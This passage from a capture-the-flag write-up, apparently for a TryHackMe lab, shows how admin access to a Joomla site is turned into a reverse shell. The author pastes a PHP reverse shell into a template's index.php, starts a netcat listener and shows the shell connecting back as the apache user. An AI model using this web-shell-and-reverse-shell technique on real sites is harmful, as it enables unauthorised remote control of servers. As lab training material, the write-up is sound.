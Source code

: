 <img width="1916" height="684" alt="image 4" src="https://github.com/user-attachments/assets/c2b15aa3-2579-400e-a887-afa7b799b9b1" />

<img width="1919" height="718" alt="image 5" src="https://github.com/user-attachments/assets/36aa23aa-ff03-40ca-b8cf-ed00cc56ff83" />

As we can see we are welcomed with CMS management sceen as we are admin now.

While looking around that management site, I see here we can edit php pages , so why not to upload php webshell and get the reverse shell back to us.

So, it in Extensions → Templates → Templates → Protostar template → index.php

<img width="1919" height="715" alt="image 6" src="https://github.com/user-attachments/assets/327cf55b-e059-438b-9cbf-adf50072b273" />

<img width="1916" height="690" alt="image 7" src="https://github.com/user-attachments/assets/e0b88741-0559-4f5b-84cc-34c39f91ed9d" />

<img width="1919" height="708" alt="image 8" src="https://github.com/user-attachments/assets/c44231d3-74e8-4753-a954-3d6418adde46" />

Ok, here we can change index.php file and we will upload [php-reverse-shell(pentest-monkey)](https://github.com/pentestmonkey/php-reverse-shell).

![Add your kali machine’s tun0 IP here.]<img width="1918" height="760" alt="image 9" src="https://github.com/user-attachments/assets/b7d158f3-5376-4171-821a-e1610e99b5fb" />


Add your kali machine’s tun0 IP here.

Copy it all from here and paste that into index.php and click on save and close.

<img width="1918" height="792" alt="image 10" src="https://github.com/user-attachments/assets/a07fdeb9-93a5-4228-991b-9b3180364ebf" />

Setup our netcat listner on listening mode on the port you specified on webshell.

And just trigger the index.php page of this website. url = [`http://10.10.160.163/](http://10.10.160.163/administrator/index.php?option=com_templates&view=template&id=506&file=L2luZGV4LnBocA%3D%3D)index.php`

And we should get the shell on our kali machine now.

```bash
┌──(ghost㉿kali)-[~/tryhackme/daily-bugle]
└─$ rlwrap -f . -r nc -nvlp 4445       
listening on [any] 4445 ...
connect to [10.17.87.131] from (UNKNOWN) [10.10.174.189] 57500
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:03:25 up 58 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

---

### Shell as JJameson
